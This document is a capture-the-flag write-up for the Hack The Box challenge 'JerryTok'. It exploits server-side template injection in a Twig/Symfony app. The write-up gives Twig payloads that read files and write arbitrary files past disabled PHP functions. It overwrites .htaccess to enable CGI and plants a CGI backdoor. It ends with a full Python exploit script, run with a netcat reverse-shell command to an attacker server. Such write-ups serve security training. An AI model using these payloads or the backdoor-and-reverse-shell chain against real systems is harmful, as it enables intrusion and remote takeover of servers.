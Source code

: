 # Challenge: JerryTok
## Rate: Medium

Analyzing the source code:

- `DefaultController.php`
    
    ```bash
    <?php
    ...
    
            $location = $request->get('location');
    
    ...
            
            $message = $this->container->get('twig')->createTemplate(
                    "Located at: {$location} from your ship's computer"
                )
                ->render();
    ...
    ```
    

Simple SSTI - `http://<Challenge_URL>?location={{7*7}}`

```php
{{7*7}}
```

- Disabled Functions:
    
    ```bash
    echo "disable_functions = exec, system, popen, proc_open, shell_exec, passthru, ini_set, putenv, pfsockopen, fsockopen, socket_create, mail" >> /etc/php82/conf.d/disablefns.ini
    ```
    

We can use `file_get_contents` and `file_put_contents` functions to bypass these limitations.

File Read:

```php
{{['file:///www/src/Controller/DefaultController.php']|map('file_get_contents')|join}}
```

Binary File Read:

```php
{{['php://filter/convert.base64-encode/resource=/www/src/Controller/DefaultController.php']|map('file_get_contents')|join}}
```

PHP Info Write:

```php
{{['/www/public/info.php',"<?php phpinfo();"]|sort('file_put_contents')}}
```

Since we have limited by `open_basedir` to only access to `/www` directory, we have to get rid of it by overwriting it with `.htaccess`.

```bash
echo "open_basedir = /www" >> /etc/php82/conf.d/openbdir.ini
```

Overwrite `.htaccess` and add an exception for CGI files to bypass `open_basedir` limitation:

```bash
Options  ExecCGI
AddHandler cgi-script .test
```

```bash
%7B%7B%5B'/www/public/.htaccess',%22Options%20+ExecCGI%0AAddHandler%20cgi-script%20.test%0A%22%5D%7Csort('file_put_contents')%7D%7D

{{['/www/public/.htaccess',"Options%20+ExecCGI%0AAddHandler%20cgi-script%20.test%0A"]|sort('file_put_contents')}}
```

Create `shell.test`

```bash
#!/bin/sh\necho&&echo ID:;id;echo FLAG;/readflag
```

```php
{{['/www/public/shell.test',"%23%21%2Fbin%2Fsh%5Cnecho%26%26echo%20ID%3A%3Bid%3Becho%20FLAG%3B%2Freadflag%0A"]|sort('file_put_contents')}}
```

`Chmod 551 shell.test`

```php
{{['/www/public/shell.test',511]|sort('chmod')}}
```

Call CGI

```bash
curl http://127.0.0.1/shell.test
```

Exploit:

```python
import requests
import urllib.parse
import argparse

def exploit_ssti(payload):
    ssti_url = f"{url}?location={payload}"
    return requests.get(ssti_url)

if __name__ == '__main__':
    parser = argparse.ArgumentParser(
                prog='mb_send_mail_xpl',
                description='Exploit solution for HTB challenge JerryTok')
    parser.add_argument('-u', '--url', default='http://127.0.0.1:1337', help='Target URL.')
    parser.add_argument('-c', '--command', default='id', help='Command to execute on target.')
    args = parser.parse_args()
    url = args.url
    command = args.command

    htaccess = """Options +ExecCGI\nAddHandler cgi-script .test\n"""
    payload = f"{{{{['/www/public/.htaccess','{htaccess}']|sort('file_put_contents')}}}}"
    exploit_ssti(payload)

    cgi_backdoor = urllib.parse.quote(f"#!/bin/sh\n\necho&&{command}")
    payload = f"{{{{['/www/public/shell.test','{cgi_backdoor}']|sort('file_put_contents')}}}}"
    exploit_ssti(payload)

    payload = "{{['/www/public/shell.test',511]|sort('chmod')}}"
    exploit_ssti(payload)

    response = requests.get(f"{url}/shell.test")
    print(response.text)
```

```bash
python3 exploit-jerryTok.py --url http://<challenge_ip>:<challenge_port> --command "nc <your_server_ip> 1234 -e /bin/sh"
```

![image](Screenshot%202024-08-18%20114215.png)
